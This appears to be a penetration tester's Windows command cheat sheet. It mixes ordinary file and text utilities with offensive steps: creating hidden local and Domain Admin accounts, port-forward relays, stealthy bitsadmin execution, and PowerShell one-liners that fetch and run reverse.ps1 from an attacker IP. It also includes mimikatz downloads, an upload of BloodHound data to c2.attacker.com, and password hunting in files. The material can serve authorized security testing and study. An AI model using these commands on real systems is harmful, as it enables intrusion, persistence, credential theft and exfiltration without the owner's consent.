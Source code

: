 # Useful commands in Windows

## Windows - Command Prompt

### Find a file
```batch
dir "\secretfile" /s
```

### Find strings in files
```batch
findstr /s /i "FLAG{" C:\*.*
```

### Find multiple words, strings and patterns
* (Equivalent of `#!bash grep -e WORD1 -e WORD2 -e WORD3`)
```batch
findstr /C:WORD1 /C:WORD2 /C:WORD3 FILENAME.TXT
```

### Enable default local "administrator" account
```batch
net user administrator /active:yes
```

### Adding local accounts (Must have system privileges)
```batch
net user trojand imashortpassword /add
net localgroup administrators trojand /add
```

### Adding a Domain Admin account
```batch
net group "Domain Admins"
net user trojandDA P@ssw0rd /add /domain
net group "Domain Admins" trojandDA /add /domain
net group "Domain Admins"
```

### List files using `#!bash tree`
```batch
tree /f
tree /f /a > tree.txt
```

### Change user password
```batch
net user trojand imareallyreallyreallylongpasswordnow
```

### Windows Built-in Plink for relay
```batch
netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>
```

### Show wireless interfaces
```batch
netsh wlan show networks mode=bssid
```

### Check for logged on users
```batch
query user
qwinsta
```

### List local drives[^1]
```batch
wmic logicaldisk get description,name | findstr /C:"Local"
fsutil fsinfo drives
```

### bitsadmin[^4]
#### Copying a File
* Better than copy. Less conspicuous by having the service do it for you.
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <LOCAL_SRC> <LOCAL_DST> & bitsadmin /resume JOB & bitsadmin /complete JOB
bitsadmin /create JOB & bitsadmin /addfile JOB %SystemRoot%\System32\cmd.exe C:\Users\Administrator\cmd.exe & bitsadmin /resume JOB & bitsadmin /complete JOB
```
#### Execute a file
* Good for executing files as this will run under `svchost -k netsvcs` as a child process and not under you command prompt
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <LOCAL_SRC> <LOCAL_DST> & bitsadmin /SetNotifyCmdLine JOB <PROGRAM_NAME> <PARAMETERS> & bitsadmin /resume JOB & bitsadmin /reset
bitsadmin /create JOB & bitsadmin /addfile JOB %TEMP%\test1.txt %TEMP%\test2.txt & bitsadmin /SetNotifyCmdLine JOB C:\Windows\System32\calc.exe NULL & bitsadmin /resume JOB & bitsadmin /reset
```



---
## Windows - Powershell 

### Nested quotes or wrapping multiple double quotes
* Triple double quotes to make one double quote.
* In the example below, the whole RCE command is taken as a variable. Think of the single quotes also as the command portion in your RCE expoits.
    ```powershell
    var g = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://10.0.1.5:1337/reverse.ps1""")"'
    ```
* For executing in powershell directly (i.e. interactive powershell), you must use a Grave Accent symbol before the three(3) double quotes.
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```
* BEWARE: This does not seem to work if you are to encode the whole command (IEX...). Better to encode payload/command from Windows to see if it gives an error


### Download & Uploading files
* Ignore bad/untrusted/self-signed certificates
    ```powershell
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    ```
* Download only [^1]
    ```powershell
    Invoke-WebRequest "http://<KALI_IP>:8000/mimikatz.zip" -Out mimikatz.zip
    
    (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
    
    $client = new-object System.Net.WebClient
    $client.DownloadFile("http://<KALI_IP>:8000/mimikatz.zip","mimikatz.zip")
    ```
* Download and execute
    ```powershell
    IEX(New-Object System.Net.WebClient).DownloadString("https://10.0.1.5:1337/reverse.ps1")
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```
* Uploading files
    * Setup a [Simple HTTP Server](../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver) for this command.
    ```
    $uri = "https://c2.attacker.com/bh.zip"
    $uploadPath = "C:\Windows\temp\20210101000109_BloodHound.zip"
    Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials
    ```

### cat, tail, grep in Windows PS
* Reading Files
    ```powershell
    Get-Content output.log
    ```
* Tail
    ```powershell
    Get-Content output.log -Tail <number of lines>
    Get-Content output.log -Tail 10
    ```
* Tail -f
    ```powershell
    Get-Content output.log -Tail 10 -Wait
    ```
* Grep
    ```powershell
    Get-Content output.log | Select-String -Pattern "<pattern>"
    Get-Content output.log | Select-String -Pattern "password"
    ```
* Grep -A 3
    ```powershell
    Get-Content output.log | Select-String -Pattern "password" -Context 0,3
    ```
* Tail -f | Grep -A 3
    ```powershell
    Get-Content output.log -Tail 10 -Wait | Select-String -Pattern "password" -Context 0,3
    ```

### Find files and contents
* Find files with using filenames
    ```powershell
    Get-ChildItem "C:\" -recurse -filter "*password*"
    ```
* Find contents in files
    ```powershell
    Get-ChildItem "C:\Users" -recurse | Select-String -pattern "passw" | group path | select name
    ```

### Expand Archives
```powershell
Expand-Archive Procdump.zip -DestinationPath "C:\temp\" -Force -Verbose
```

### Base64 Encode Powershell commands
* Some use cases:
    * Encoding[^2] [Powershell one-liners](../Windows/Shells.html#one-liners)
```powershell
$MYCOMAND = "Invoke-WebRequest -Uri 'http://www.contoso.com' -OutFile 'C:\path\file'"
$ENCODED = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($MYCOMMAND))
Write-Output $ENCODED
```

### List directory and sort by Date Time
* Useful when trying to delete any files written to disk (i.e. procdump64.exe/lsassy.exe) and need to sort out through bunch of files (i.e. C:\Windows\temp)
* Command Prompt
    ```
    dir /od
    ```
* Powershell (sorted by date(LastWriteTime). For sorting via other datetime fields, just press “TAB”)
    ```
    Get-ChildItem .\|Sort-Object LastWriteTime
    ```

### Taskkill
* Killing tasks after `tasklist /V` [^5]
* Useful when killing command and process which did not working and pressing ++ctrl+c++ exited the whole terminal
```
taskkill /PID 1234
taskkill /F /IM cmd.exe
```

[^1]: [Windows Commandline - List local drives from command line](https://www.windows-commandline.com/list-local-drives-command-line/)
[^2]: [Abatchy](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)
[^3]: [Tech Expert](https://techexpert.tips/powershell/powershell-base64-encoding/)
[^4]: [TrustedSec - BITS for Script Kiddies](https://www.trustedsec.com/blog/bits-for-script-kiddies/)
[^5]: [Windows Commandline - taskkill](https://www.windows-commandline.com/taskkill-kill-process/)
